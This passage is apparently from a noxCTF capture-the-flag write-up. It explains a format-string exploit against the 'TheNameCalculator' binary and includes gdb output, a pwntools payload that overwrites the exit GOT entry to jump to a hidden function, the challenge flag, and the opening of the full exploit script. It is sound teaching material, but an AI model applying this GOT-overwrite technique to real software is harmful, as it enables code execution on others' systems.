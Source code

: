 ```
root@kali:/media/sf_CTFs/noxale/name_calc# gdb ./TheNameCalculator
[...]
Reading symbols from ./TheNameCalculator...(no debugging symbols found)...done.
>>> p/x *0x0804A024
$1 = 0x8048476
>>> disas $1,+10
Dump of assembler code from 0x8048476 to 0x8048480:
   0x08048476 <exit@plt+6>:	push   0x30
   0x0804847b <exit@plt+11>:	jmp    0x8048400
End of assembler dump.
>>> 
```

(You can read a bit more about the GOT's lazy binding [here](https://www.technovelty.org/linux/plt-and-got-the-key-to-code-sharing-and-dynamic-libraries.html))

Therefore, we just need to override the first WORD - the second word (0x0804) already contains the value we want.

The final part of the exploit therefore is:

```python
superSecretFunc_addr = e.symbols['superSecretFunc']
log.info("superSecretFunc = {}".format(hex(superSecretFunc_addr)))

exploit = bytearray(p32(got_exit_addr))
exploit += "%{}x".format( (superSecretFunc_addr) & (0xFFFF) - (len(exploit)) ) + "%{}$hn".format(f.offset)
log.info("exploit = {} (len = {})".format(exploit, len(exploit)))

print send_payload(exploit, remote('chal.noxale.com', 5678))
```

The flag: **noxCTF{M1nd_7he_Input}**

The complete exploit:

```python
from pwn import *

PROC_NAME = "./TheNameCalculator"

MAGIC_VALUE = 0x6A4B825
MAGIC_XOR   = 0x5F7B4153

# Since the pwntools FmtStr class uses a marker length of 20, and our input 
# is limited to 27 bytes, we need to shorten the marker to make room for
# the rest of the payload. This option isn't provided by pwntools (yet),
# so we just override the appropriate function with using inheritance. 
class FmtStrEx(FmtStr):
	def find_offset(self):
		marker_len = 8
		marker = cyclic(marker_len)
		for off in range(1,1000):
			leak = self.leak_stack(off, marker)
			leak = pack(leak)
	
			pad = cyclic_find(leak)
			if pad >= 0 and pad < marker_len:
				return off, pad
	        else:
			log.error("Could not find offset to format string on stack")
		return None, None

def encrypt(plaintext):
	b = bytearray(plaintext)
	magic = p32(MAGIC_XOR)
```